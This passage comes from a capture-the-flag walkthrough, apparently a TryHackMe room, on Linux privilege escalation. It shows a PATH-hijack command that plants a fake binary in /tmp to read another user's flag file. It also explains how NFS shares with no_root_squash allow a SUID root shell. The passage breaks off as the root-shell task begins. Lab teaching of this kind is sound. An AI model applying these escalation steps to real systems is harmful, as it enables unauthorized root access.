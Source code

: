 ```bash
echo "cat /home/matt/flag6.txt" > /tmp/thm
chmod +x /tmp/thm
```

Once we’ve placed this binary in `/tmp`, if we run `./test` in the murdoch folder, the program should execute our custom `thm`, giving us the contents of `flag6.txt` without raising alarms!

---

**Q: What is the content of the flag6.txt file?**
<details><summary>Answer</summary></details>

## Task 11: Privilege Escalation: NFS
NFS stands for **Network File System** and is a file system protocol allowing computers to access files over a network as if they were on its local hard drive.

You can see the configuration in the `/etc/exports` file. On the machine given this is shown:

```terminal
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

The key to the privilege escalation is the "no_root_squash" option. By default, NFS will change the root user to nfsnobody and remove any root privileges. If the "no_root_squash" is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system. We could then create a file that starts a root shell on the attacking host and run it on the target host gaining an instant root shell.

---

**Q: How many mountable shares can you identify on the target system?**
<details><summary>Answer</summary></details>

---

**Q: How many shares have the "no_root_squash" option enabled?**
<details><summary>Answer</summary></details>

---

**Q: Gain a root shell on the target system**
To do this, we first check the mountable shares using either `showmount -e TARGET_IP` on the attacker machine or `cat /etc/exports` on the target host. We find that the following folders are mountable:
